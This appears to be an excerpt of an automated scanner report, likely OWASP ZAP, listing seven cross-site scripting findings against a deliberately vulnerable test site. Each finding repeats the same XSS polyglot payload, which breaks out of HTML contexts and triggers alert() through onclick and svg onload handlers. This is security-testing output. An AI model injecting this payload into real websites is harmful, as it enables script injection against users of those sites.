 * URL: https://public-firing-range.appspot.com/urldom/location/hash/document.location%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/urldom/location/hash/embed.src%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/urldom/location/hash/form.action%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/urldom/location/hash/iframe.src%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/urldom/location/hash/input.formaction%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/urldom/location/hash/object.data%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/form%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `POST`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
